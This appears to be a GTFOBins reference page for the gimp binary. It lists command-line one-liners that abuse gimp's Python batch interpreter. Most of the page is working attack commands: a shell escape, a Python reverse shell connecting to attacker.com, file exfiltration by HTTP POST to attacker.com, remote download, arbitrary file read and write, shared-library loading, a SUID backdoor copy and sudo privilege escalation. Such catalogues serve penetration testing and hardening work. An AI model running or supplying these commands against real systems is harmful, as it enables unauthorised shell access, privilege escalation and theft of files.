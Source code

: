 # GTFOBin: gimp

The binary hangs after executing the Python code and can be terminated pressing `ctrl-c`.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
gimp -idf --batch-interpreter=python-fu-eval -b 'import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")'
```

## File upload

It can exfiltrate files on the network.

Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export URL=http://attacker.com/
export LFILE=file_to_send
gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
```

Serve files in the local folder running an HTTP server.

```
export LPORT=8888
gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
if sys.version_info.major == 3: import http.server as s, socketserver as ss
else: import SimpleHTTPServer as s, SocketServer as ss
ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
gimp -idf --batch-interpreter=python-fu-eval -b 'open("file_to_write", "wb").write("DATA")'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
gimp -idf --batch-interpreter=python-fu-eval -b 'print(open("file_to_read").read())'
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

```
gimp -idf --batch-interpreter=python-fu-eval -b 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which gimp) .

./gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
```